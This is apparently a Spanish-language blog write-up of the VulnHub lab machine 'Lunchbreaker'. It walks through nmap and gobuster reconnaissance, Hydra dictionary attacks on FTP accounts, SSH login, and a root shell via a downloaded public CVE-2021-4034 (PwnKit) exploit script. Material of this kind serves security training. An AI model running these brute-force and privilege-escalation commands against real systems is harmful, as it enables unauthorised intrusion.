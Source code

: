 ```yaml
---
title: Lunchbreaker
date: 2024-07-16
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con NMAP, para comprobar los que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.159 -n -Pn -v
```

![picture](/assets/images/vulnhub/lunch1.png){: w="600" h="300" }

Vamos a volver a realizar un escaneo de los 3 puertos encontrados, para comprobar las versiones, y lanzar una serie de scripts predefinidos de NMAP, para ver si puede encontrar algo interesante.

```bash
nmap -p21,22,80 -sV -sC 192.168.1.159 -v
```

![picture](/assets/images/vulnhub/lunch2.png){: w="600" h="300" }

Encontramos el ussuario **Anonymous** activo, nos metemos en el servicio **FTP** con el usuario **Anonymous** y nos descargamos los archivos **supers3cr3t** y **.s3cr3t** ya que *Wordpress* es un directorio.

![picture](/assets/images/vulnhub/lunch3.png){: w="600" h="300" }

El contenido del archivo **supers3cr3t** está cifrado en **brainfuck**, así que vamos a internet a intentar descifrarlo.

![picture](/assets/images/vulnhub/lunch4.png)
![picture](/assets/images/vulnhub/lunch5.png)

Y el archivo **.s3cr3t** está crifrado en **base64**, así que vamos a descifrarlo.

![picture](/assets/images/vulnhub/lunch6.png)
![picture](/assets/images/vulnhub/lunch7.png)

Vamos a comprobar de que se trata la página web.

Lo único que podemos encontrar es un posible nombre de usuario inspeccionando el código de la página.

![picture](/assets/images/vulnhub/lunch8.png)

Vamos a realizar **Fuzzing** para ver si encontramos algo.

```bash
gobuster dir -u http://192.168.1.159 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```
No encontramos nada interesante.

![picture](/assets/images/vulnhub/lunch9.png)

---

## **Explotación**

Con el nombre de ususario encontrado, vamos a intentar encontrar la contraseña para el servicio de **FTP**, utilizando un ataque de diccionario con la herramienta **Hydra**.

```bash
hydra -t 64 -l jane -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

Y obtenemos la contraseña.

![picture](/assets/images/vulnhub/lunch11.png)

Accedemos mediante las credenciales en el servicio **FTP**, y encontramos un archivo "**keys.txt**" que nos vamos a descargar en nuestra máquina local.

![picture](/assets/images/vulnhub/lunch12.png){: w="600" h="300" }

El contenido del archivo parece estar encriptado.

![picture](/assets/images/vulnhub/lunch13.png)

Buscando en el servicio **FTP**, encontramos mas directorios personales de otros usuarios.

![picture](/assets/images/vulnhub/lunch14.png){: w="600" h="300" }

Vamos a realizar ataques de diccionario, para intentar encontrar la contraseña de los otros usuarios encontrados en el servicio **FTP**. 

```bash
hydra -t 64 -l jim -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

```bash
hydra -t 64 -l jules -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

Encontramos la contraseña del usuario **jim** y **jules**.

![picture](/assets/images/vulnhub/lunch15.png)

Accedemos mediante **FTP** y sus credenciales.

En el directorio de **jim** no encontramos nada, pero en el de **jules**, encontramos un directorio oculto llamado **".backups"**, y dentro de el, archivos de credenciales, nos los descargamos y comprobamos que son contraseñas.

![picture](/assets/images/vulnhub/lunch16.png)
![picture](/assets/images/vulnhub/lunch17.png)

Ahora intentaremos realizar un ataque de diccionario con los archivos encontrados para intentar encontrar las credenciales de usuario **john**.

Encontramos la contraseña de **FTP**.

![picture](/assets/images/vulnhub/lunch18.png)

Probando con las contraseñas encontradas, intento conectarme mediante el servicio **SSH**, y obtengo resultado con **jules**.

![picture](/assets/images/vulnhub/lunch19.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Dentro de la máquina, viendo los procesos que se están ejecutando en la máquina en búsqueda de escalada de privilegios encontramos el siguiente.

![picture](/assets/images/vulnhub/lunch20.png)

Si buscamos su versión, nos sale la ***0.105***.

![picture](/assets/images/vulnhub/lunch21.png)

Buscando en internet encontramos la vulnerabilidad [**CVE-2021-4034**](https://github.com/joeammond/CVE-2021-4034), la cual nos permite escalar los máximos privilegios.

Nos descargamos el script de **Python**.

```bash
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
```

![picture](/assets/images/vulnhub/lunch22.png)

Lo ejecutamos, y obtenemnos una shell de **root**.

![picture](/assets/images/vulnhub/lunch23.png)

Podemos leer la única **flag** que tiene la máquina.

![picture](/assets/images/vulnhub/lunch24.png){: w="600" h="300" }


